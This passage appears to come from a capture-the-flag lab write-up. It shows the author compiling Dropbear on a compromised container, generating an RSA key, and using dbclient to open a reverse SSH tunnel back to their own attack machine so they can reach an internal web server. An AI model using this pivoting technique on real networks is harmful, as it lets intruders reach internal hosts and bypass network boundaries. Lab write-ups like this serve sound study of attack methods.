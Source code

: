 

Now compile the software (the container has gcc and the minimum
libraries to build this):



    # cd dropbear-2018.76/                     
    # ./configure && make                  
    checking for gcc... gcc                      
    checking whether the C compiler works... yes
    checking for C compiler default output file name... a.out
    checking for suffix of executables...    
    checking whether we are cross compiling... no
    ...[snip]...



#### Generate Key Pair

Next I'll generate a key pair to use with `dropbearkey`. It's a simple
program with [only a few
options](https://linux.die.net/man/8/dropbearkey). I'll use `-t rsa` to
make an RSA key pair, and `-f .k` to name the key file `.k`:



    # ./dropbearkey -t rsa -f .k
    Generating 2048 bit rsa key, this may take a while...
    Public key portion is:
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCFI9K2O4PVLSLLIJw2ExqYHtPUQTrcn+GKR3BRaD8Th+5CYIPMRQF8MK29tlgjdZh5MSf5RB4tsm523hMp6879tvi0Bzc0afZ8FKfaVjTwWsG/cbNFZzi4W5PpwsLkh9vbBgXhbPfdmMdz2uLZrsmPKVKXXkg/URz9vhiQelJAL0PcysIBh3c9CkJfNzzNJ2DHxY/OugnhQlObmLfOzkucP2DtTAZjYYCpc8cByzKS7vgo8rZLscf7QrN3LLKr8SFmjSnEcqxvIC1cVOpRju3kmfJxNY4ebcod1DaQtRYXC+K2byNwf5y3z3ahhW8dWJVLEcPH0bueuRVnYk3wfrjx root@nodered
    Fingerprint: sha1!! 78:53:6e:77:d8:da:ef:43:a7:c8:97:de:3c:a0:c4:d4:80:7d:f3:ab



Now I'll put this public key into the authorized key file for dummy on
my kali box. While this key is in that file, anyone who has the private
key (`.k`) can ssh into my box, so I'll want to leave this in place only
long enough to get the tunnels set up.

#### Create Tunnel

Now I'll use DropBear's `dbclient` to ssh back, creating a tunnel to
access the web page on www:



    # ./dbclient -i .k -f -N -R 8888:172.19.0.4:80 dummy@10.10.14.14
